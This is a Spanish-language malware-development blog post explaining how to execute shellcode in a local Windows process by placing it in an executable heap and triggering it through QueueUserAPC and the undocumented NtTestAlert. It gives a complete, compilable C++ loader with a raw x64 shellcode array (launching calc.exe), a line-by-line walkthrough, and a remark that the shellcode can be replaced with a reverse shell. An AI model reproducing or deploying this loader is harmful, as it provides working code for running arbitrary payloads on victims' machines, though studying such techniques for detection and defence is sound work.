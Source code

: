 ```yaml
---
layout: post
title: Shellcode almacenada en el heap e inyección vía APC injection y NtTestAlert en un proceso local
author: c4rta
date: 2023-07-17
categories: [MalDev]
---
```


Esta vez vamos a almacenar la shellcode en el heap de un proceso local usando HeapCrate y HeapAlloc y la ejecutaremos con QueueUserAPC y la NTAPI indocumentada NtTestAlert

## Asynchronous Procedure Calls (APC) y QueueUserAPC()

De acuerdo a la MSDN, una APC es:

> Es una función que se ejecuta de forma asíncrona en el contexto de un subproceso en particular

Cada subproceso tiene un propia cola APC, y un subproceso debe estar en un estado de alerta para ejecutar un APC en modo de usuario, algunas formas de indicarle a un subproceso que este en modo de alerta es con las funciones ```SleepEx``` , ```SignalObjectAndWait```, ```MsgWaitForMultipleObjectsEx```, etc.

La forma en la que podemos agregar una APC a la cola APC es usando ```QueueUserAPC```, la estructura de QueueUserAPC es:

```c++
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

- ```pfnAPC``` es un puntero a la APC que se llamara cuando el subproceso realiza una operacion de alerta
- ```hThread``` es el identificador del hilo 
- ```dwData``` es un valor que funciona como un parametro a ```pfnAPC```

## Flujo de ejecucion

- Crear un heap usando ```HeapCreate```
- Se asigna un bloque de memoria con ```HeapAlloc``` del tamaño de la shellcode en el heap creado con ```HeapCreate```
- Se escribe la shellcode en el bloque de memoria del heap usando ```WriteProcessMemory```
- Se encola una APC en el subproceso actual usando ```QueueUserAPC```
- Se llama ```NtTestAlert``` para forzar la ejecucion de la APC

### Codigo

```c++
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char shellcode[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
	"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
	"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
	"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
	"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
	"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
	"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
	"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
	"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
	"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
	"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
	"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
	"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
	"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
	"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
	"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
	"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
	"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main(){
    myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
    HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
    LPVOID shellcodeHeap = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
    WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
    QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
    testAlert();

    return 0;
}
```

Pimero creamos un heap en donde le indicamos que en las opciones de asignacion tenga ```HEAP_CREATE_ENABLE_EXECUTE``` para que los bloques de memoria que se asignen permitan ejecutar codigo

```c++
HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
```

Despues asignamos un bloque de memoria donde le indicamos con ```HEAP_ZERO_MEMORY``` que la asignacion inicie con cero, y el tamaño de la asignacion sea el tamaño de la shellcode, por eso se usa ```sizeof(shellcode)```

```c++
HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
```

Despues escribimos la shellcode en el bloque de memoria del heap, se usa ```GetCurrentProcess()``` para que el identificador del proceso sea el identificador del proceso actual, el tamaño en bytes que se van a escribir es igual al tamaño de la shellcode, por eso se vuelve a usar ```sizeof(shellcode)```

```c++
WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
```

Despues declaramos ```apcRoutine``` como un puntero de tipo ```PTHREAD_START_ROUTINE``` el cual se le asignara la direccion de memoria que tiene ```shellcodeHeap```, con esto le indicariamos que la APC apunte a ```shellcodeHeap``` que es el bloque del heap que contiene la shellcode

```c++
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
```

Despues encolamos una APC a la cola APC, se le pasa ```(PAPCFUNC)apcRoutine``` para que ```apcRoutine``` sea interpretado como un puntero de tipo ```PAPCFUNC``` y sea una APC valida, tambien usamos ```GetCurrentThread()``` para que se use el identificador del hilo actual

```c++
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
```

Y por ultimo mandamos a llamar a ```testAlert()``` para forzar la ejecion de las APC encoladas en el hilo actual.

Si compilamos y ejecutamos se ejecutara la shellcode que la cual abrira la calculadora (evidetemente puedes cambiar la shellcode para que haga otra cosa, una reverse shell por ejemplo)

![](/imgs/heap-queue/ejecucion.gif)

### Referencias

[https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)

[https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)

[https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert](https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert)

